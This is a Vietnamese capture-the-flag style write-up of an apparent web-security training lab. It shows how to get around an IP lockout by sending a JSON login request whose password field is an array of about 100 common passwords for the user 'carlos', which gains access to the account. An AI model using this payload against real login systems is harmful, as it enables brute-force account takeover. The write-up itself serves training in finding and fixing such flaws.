





# Writeup LAB Hệ thống bảo vệ chống tấn công vét cạn bị lỗi, nhiều thông tin đăng nhập cho mỗi yêu cầu.

## Goal
Để giải quyết lab này chúng ta cần tấn công vét cạn mật khẩu của Carlos, sau đó truy cập vào tài khoản của nó để hoàn thành LAB
## Khai thác
Trang login khi nhập một số username, password ngẫu nhiên thì kết quả nhận được `Invalid username or password`

Khi đăng nhập liên tiếp sai 4 lần thi nó sẽ chặn IP chúng ta

Ở đây, chúng ta có thể thấy thông tin đăng nhập được lưu trữ ở định dạng JSON . Nhưng đặc biệt ở trang JSON chúng ta có thể gửi một định dạng mảng thông qua toán từ `[]`
Ví dụ nhưu sau:
```json
{
    "username":"carlos",
    "password":[
        "123456"
        "password"
        "12345678"
        "..."
    ],
    "":""
}
```
Và với điều ở trên chúng ta có thể truyền vào một loạt mật khẩu sẽ khiến server không chặn được từ phía IP chúng ta bằng cách đó chúng ta có thể vét cạn mật khẩu carlos như sau:
```json
{
    "username":"carlos",
    "password":[
        "123456",
        "password",
        "12345678",
        "qwerty",
        "123456789",
        "12345",
        "1234",
        "111111",
        "1234567",
        "dragon",
        "123123",
        "baseball",
        "abc123",
        "football",
        "monkey",
        "letmein",
        "shadow",
        "master",
        "666666",
        "qwertyuiop",
        "123321",
        "mustang",
        "1234567890",
        "michael",
        "654321",
        "superman",
        "1qaz2wsx",
        "7777777",
        "121212",
        "000000",
        "qazwsx",
        "123qwe",
        "killer",
        "trustno1",
        "jordan",
        "jennifer",
        "zxcvbnm",
        "asdfgh",
        "hunter",
        "buster",
        "soccer",
        "harley",
        "batman",
        "andrew",
        "tigger",
        "sunshine",
        "iloveyou",
        "2000",
        "charlie",
        "robert",
        "thomas",
        "hockey",
        "ranger",
        "daniel",
        "starwars",
        "klaster",
        "112233",
        "george",
        "computer",
        "michelle",
        "jessica",
        "pepper",
        "1111",
        "zxcvbn",
        "555555",
        "11111111",
        "131313",
        "freedom",
        "777777",
        "pass",
        "maggie",
        "159753",
        "aaaaaa",
        "ginger",
        "princess",
        "joshua",
        "cheese",
        "amanda",
        "summer",
        "love",
        "ashley",
        "nicole",
        "chelsea",
        "biteme",
        "matthew",
        "access",
        "yankees",
        "987654321",
        "dallas",
        "austin",
        "thunder",
        "taylor",
        "matrix",
        "mobilemail",
        "mom",
        "monitor",
        "monitoring",
        "montana",
        "moon",
        "moscow"
    ],
    "":""
}
```
Kết quả chúng ta nhận được trạng thái 302 và vào được 

Hoàn thành LAB khi đã vào được account Carlos
